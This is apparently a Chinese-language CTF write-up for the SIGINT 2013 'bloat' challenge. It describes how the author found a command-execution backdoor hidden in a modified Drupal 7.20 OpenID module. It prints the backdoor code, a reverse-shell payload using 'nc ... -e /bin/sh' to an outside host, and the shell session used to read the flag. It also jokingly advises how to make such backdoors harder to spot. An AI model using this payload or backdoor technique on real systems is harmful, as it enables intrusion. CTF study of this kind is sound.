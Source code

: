 ```yaml
---
layout: post
title: "SIGINT 2013 cloud200 bloat"
description: "SIGINT 2013 cloud200 bloat hunt for backdoor"
category: "writeup"
tags: ["SIGINT 2013", "web", "writeup"]
---
```

{% include JB/setup %}
#SIGINT2013 cloud200 bloat

Description

    My friend set up this site for me. I don't trust him.
    He installed a backdoor for sure. Can you find it?
    He just wrote me, what this system is using.
    Somehow it looks diff-erent o_O:
	http://a0.ctf.sigint.ccc.de/

[cdd-7.20.tar_0.gz](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/cdd-7.20.tar_0.gz)

[source_code.tar.bz2](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/source_code.tar.bz2)

这道题比赛的时候只有一个队伍做出来。虽然只有200分，但过程比较复杂。
我本来预期花一两个小时就能解决这个问题，结果却耗费了四个小时。

首先也是最关键的问题就是如何找到后门。
这个网站使用的是开源系统drupal 7.20，还附带了一些插件。但问题并不是直接diff那么简单。
官方的源码附有详细的注释，但修改版中将所有注释全部删掉了，还把代码风格从K&R风格改成了一种很混乱的样子，甚至将所有的变量名替换成了奇奇怪怪的东西。

手工查找人眼识别几乎是不可行的。必须想其它办法。

比赛的时候卡在其他题上面了，没有时间仔细看这道题。事后才想起来可以写一个文本处理器，把php文件全部“格式化”一遍：去掉注释+统一格式+统一变量命名。

[PHP_filter.cpp](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/filter.cpp)

处理注释是最麻烦的一步，要判断引号和各种注释符，最终版本的代码也还有瑕疵。
因为只需要比对出文件的不同之处，所以不需要维护代码风格和变量名。为了统一，我把所有可能换行的`{};,:()`全都强行换行，又将所有变量名指定成了$000。

用这个非常挫的文本处理器半自动操作，效率已经比人眼识别提升很多，而且出错率降低很多。
但是将所有`.php`文件对比之后并没有什么收获。
再去查看源码中的文件，发现`.php`的文件其实并不多。很多插件都是以`.inc\.module`这样的后缀结尾的。

再扫描一遍`.inc`后缀的文件，果然发现有一个文件`./bloat/modules/openid/openid.inc`略有不同。

    10 define('OPENID_DH_DEFAULT_GEN', '86');
    
而原版中的openid是

```php
<?php
/**
 * Diffie-Hellman generator; used for Diffie-Hellman key exchange computations.
 */
define('OPENID_DH_DEFAULT_GEN', '2');
```
    
这是跟用户认证有关的一个常量。修改这种值也许会造成认证系统的一些缺陷。
继续看代码，我有了更大的收获。

在`./bloat/modules/openid/openid.module`中代码逻辑与原版有明显的不同。

```php
<?php
function openid_login_validate($quench, &$tickers)
{
	$return_to = $tickers['values']['openid.return_to'];
...
	openid_begin($tickers['values']['openid_identifier'], $return_to, $tickers['values']);
... 
function openid_begin($imaginably, $overlay = '', $termination = array())
...
	if(strpos($imaginably, '@'))
	{
		list($user, $host) = explode('@', $imaginably, 2);
	}
	else
    {
    $user = false;
    $host = false;
    }
```
    
`list($user, $host) = explode('@', $imaginably, 2);`中`$imaginably`正是用户提交的认证用户名。
再来看看这些变量做了什么。

```php
<?php
$user_enc = _openid_dh_long_to_base64($user * OPENID_DH_DEFAULT_GEN);
$service['uri'] = drupal_map_assoc(array($host), $user_enc);
openid_redirect($service['uri'], $ramparts);
```
    
这里用到了修改过的常量`OPENID_DH_DEFAULT_GEN`。
drupal_map_assoc()返回的是数组，所以在redirect过程中会被强转成字符串"Array"，最后在跳转的时候会出错。
而这个[drupal\_map\_assoc()](https://api.drupal.org/api/drupal/includes%21common.inc/function/drupal_map_assoc/7)则暗藏玄机。
根据官方文档，drupal\_map\_assoc()会把第一个参数$array中的每个参数依次传入第二个参数$callable执行并返回一个数组。
这里藏着一个命令执行后门啊。。。。
只要`is_callable($user_enc)`就能直接执行`$user_enc($host)`。
而`$user_enc`是从`$user * OPENID_DH_DEFAULT_GEN`解出来的。
因为`OPENID_DH_DEFAULT_GEN`的限制，所以这个`$user_enc`必须是按照base64解成整形之后能整除86（中间还有一些过程）。

现在要做的就是找一个合适的函数，恰好能满足这个条件了。

```bash
slipper@NULL:~/CTF/SigintCTF2013/cloud/bloat/bloat/modules/openid$ php -a
Interactive shell

php > include './openid.inc';
php > var_dump(is_callable('system'));
bool(true)
php > var_dump(is_callable('systeM'));
bool(true)
php > echo _openid_dh_base64_to_long('system')/OPENID_DH_DEFAULT_GEN ."\n";
34952922.72093
php > echo _openid_dh_base64_to_long('System')/OPENID_DH_DEFAULT_GEN ."\n";
14664196.395349
php > echo _openid_dh_base64_to_long('SYstem')/OPENID_DH_DEFAULT_GEN ."\n";
14347185.046512
php > echo _openid_dh_base64_to_long('eval')/OPENID_DH_DEFAULT_GEN ."\n";
93703.872093023
php > echo _openid_dh_base64_to_long('exec')/OPENID_DH_DEFAULT_GEN ."\n";
93802
```

因为这里的is\_callable是不区分大小写的，本来我还以为后门作者刻意选择了大小写混用的函数名，本来差点要写程序暴搜的。还好偶然发现exec正好符合要求。^\_^

**如果以后要用这种方法做后门，记得一个有大因子的大小写混用的函数名哦。**

接下来就是命令执行了。
可是用`93802@echo a > a`结果并没有生成文件a。似乎对网站的目录木有写权限。
如果要获取flag，必须要有传递信息的途径。
唯一能想到的方法就只有反连了。
幸运的是服务起的nc有-e选项，正好可以交互，不然还得一次一次地执行命令。

用`93802@nc x.x.x.x 8080 -e /bin/sh`反弹，本地用`nc -l 8080`监听。

```bash
pwd
/var/www
ls -la ./
total 7904
drwxr-xr-x  9 root root    4096 Jul  5 01:23 .
drwxr-xr-x 14 root root    4096 Jul  5 01:53 ..
-rw-r--r--  1 root root   75028 Mar  7 17:26 CHANGELOG.txt
-rw-r--r--  1 root root    1481 Mar  7 17:26 COPYRIGHT.txt
...
-rw-r--r--  1 root root      34 Jul  5 01:01 ___F_L_A_G___
...
cat ___F_L_A_G___
not here, see /flag on filesystem
cat /flag
SIGINT_d4b0844c
```

看来果然是木有写权限～～
FLAG is `SIGINT_d4b0844c`
